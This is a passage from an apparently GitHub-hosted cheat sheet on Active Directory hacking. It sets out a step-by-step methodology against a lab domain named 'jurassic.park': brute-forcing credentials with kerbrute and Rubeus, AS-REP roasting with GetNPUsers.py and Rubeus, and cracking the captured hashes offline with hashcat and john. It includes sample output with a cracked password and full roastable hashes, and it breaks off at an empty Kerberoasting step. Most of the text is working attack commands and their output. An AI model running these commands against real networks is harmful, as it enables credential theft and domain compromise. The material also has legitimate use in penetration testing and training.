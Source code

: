 # Active Directory Hacking 

## Kerberoasting

Kerberoasting is a cyberattack that exploits the Kerberos authentication protocol. Threat actors steal Kerberos service tickets to uncover the plaintext passwords of network service accounts. 

## Methodology

1. Finding username is the first step.
```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
```

```powershell
PS C:\Users\user01> .\Rubeus.exe brute /users:users.txt /passwords:passwords.txt /domain:jurassic.park /outfile:jurassic_passwords.txt
```

Expected Output:

```bash
[+] Valid user => velociraptor
[+] Valid user => trex
[+] Valid user => triceratops
[+] STUPENDOUS => triceratops:Sh4rpH0rns
[*] Saved TGT into triceratops.kirbi
```

2. ASREPRoast - Look for users without pre-authentication required
The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.
The script GetNPUsers.py can be used from a Linux machine in order to harvest the non-preauth AS_REP responses. The following commands allow to use a given username list or query to obtain a list of users by providing domain credentials:
If you are guessing username;

```bash
root@kali:impacket-examples# python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast

root@kali:impacket-examples# cat hashes.asreproast 
$krb5asrep$23$velociraptor@JURASSIC.PARK:7c2e70d3d46b4794b9549bba5c6b728e$599da4e9b7823dbc8432c188c0cf14151df3530601ad57ee0bc2730e0f10d3f1552b3552cee9431cf3f1b119d099d3cead7ea38bc29d5d83074035a2e1d7de5fa17c9925c75aac2717f49baae54958ec289301a1c23ca2ec1c5b5be4a495215d42e9cbb2feb8b7f58fb28151ac6ecb0684c27f14ecc35835aecc3eec1ec3056d831dd518f35103fd970f6d082da0ebaf51775afa8777f783898a1fa2cea7493767024ab3688ec4fe00e3d08a7fb20a32c2abf8bdf66c9c42f49576ae9671400be01b6156b4677be4c79d807ba61f4703d9acda0e66befc5b442660ac638983680ffa3ada7eacabad0841c9aee586
```

If you already have username and password;

```bash
root@kali:impacket-examples# python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

Name          MemberOf                                       PasswordLastSet      LastLogon            UAC      
------------  ---------------------------------------------  -------------------  -------------------  --------
velociraptor  CN=Domain Admins,CN=Users,DC=jurassic,DC=park  2019-02-27 17:12:12  2019-03-18 11:44:04  0x410200 



root@kali:impacket-examples# cat hashes.asreproast 
$krb5asrep$23$velociraptor@JURASSIC.PARK:6602e01d59b4eeba815ab467194a9de4$b13a0e139b1daa46a457b3fa948c22cbbaad75a94c2b37064d757185d171c258e290210339d950b9245de6fa40a335986146a8c71c0b60f633b4c040141460a0a91737670f21caae6261ebde0151c06adceac22bfed84cb8c1f07948fb8e75b8a1d64c768c9e3f3a50d035ec03df643ea185648406b634b6fd673028e6e90ea429f57f9229b00f47f2bba2cdb7297d29b9f97a83d07c89dee7ea673340f64c443a213d5b9bbed969a68ca7a0ea41245b0fa985f64261803488b61821fbaedf43d50ea16075b2379bb354e4001d73dfd19cc8787b4bcd2bd9b542e0e2b1218ee8c16699c134ae5ec587afe0fd1880
```

```powershell
C:\Users\triceratops>.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.3.3

[*] Action: AS-REP roasting

[*] Using domain controller: Lab-WDC01.jurassic.park (10.200.220.2)
[*] Building AS-REQ (w/o preauth) for: 'jurassic.park\velociraptor'
[*] Connecting to 10.200.220.2:88
[*] Sent 170 bytes
[*] Received 1423 bytes
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\triceratops\hashes.asreproast

[*] Roasted hashes written to : C:\Users\triceratops\hashes.asreproast

C:\Users\triceratops>type hashes.asreproast
$krb5asrep$23$velociraptor@jurassic.park:BBEC05D876E5133F5AB0CEDA07572FE0$4A826CD2123EBC266179A9009E867EAAC03D1C8C9880ACF76DCA4B5919F967E86DBB6CD475DA8EF5C83B1B8388D22DA005BA10D5CB4D10F3C3F44C918ACD5843660C4FF5C678E635F7751A109524D693DB29BF75A5F0995B41CD35600B969FE371F77AD13F48604DFAB87253D324E8F53C267A2299D2450245D317D319A4FD424B42F815B79E2DD16C58AB2A2C106EB6995AFF70C8E889D8F170B35E78993157B3B3D13DCCE18A720BC5810C474CBC95C07B5FFCEE5EE06442FDB6244C33EECA4BFCD4F6C051A5F00C40A837A9644ADA70A381A85089F05CFB5E5F03AB0C7525BBA6AEAF9DA3554D3D700DD54760
```

3. Cracking the AS_REP

```bash
root@kali:impacket-examples# hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```

```bash
root@kali:kali# john --wordlist=passwords_kerb.txt hashes.asreproast
```

4. Kerberoasting
